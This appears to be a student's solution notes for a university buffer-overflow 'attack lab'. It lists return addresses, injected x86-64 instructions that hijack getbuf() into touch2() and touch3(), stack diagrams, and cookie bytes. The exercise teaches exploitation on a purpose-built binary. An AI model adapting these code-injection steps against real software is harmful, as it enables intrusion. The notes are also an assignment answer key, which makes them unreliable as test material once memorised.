 ## Phase 1

0x401967 --> 0x4017c0

## Phase 2

Set return address of getbuf() to next byte in $rsp, i.e. ($rsp) = $rsp + 8, which point to following instructions:

```
pushq $0x4017ec       # push address of touch2() as return value
movq $0x59b997fa,%rdi # pass cookie to first argument of touch2()
ret                   # return to touch2()
```

```
movq $0x59b997fa,%rdi
ret
```

## Phase 3

byte sequence of string representation of 0x59b997fa is

```
35 39 62 39 39 37 66 61
```

### Solution 1

Stack:

```
+------------------------+
| STRING                 |
|                        |
| INSTRUCTION <<---------------+
|                        |     |
| RETURN1 ---------------------+
+------------------------+
```

Instructions:

```
pushq $0x4018fa
leaq 0x16(%rsp),%rdi
ret
```

### Solution 2

Stack

```
+------------------------+
| STRING                 |
|                        |
| INSTRUCTION <<---------+-----+
|                        |     |
| RETURN2 -> touch3()    |     |
|                        |     |
| RETURN1 ---------------+-----+
+------------------------+
```

Instructions:

```
leaq 0x16(%rsp),%rdi
ret
```

## Phase 4

* 0x59b997fa stored in address 0x6044e4

```
movq $0x59b997fa,%rdi
ret
```
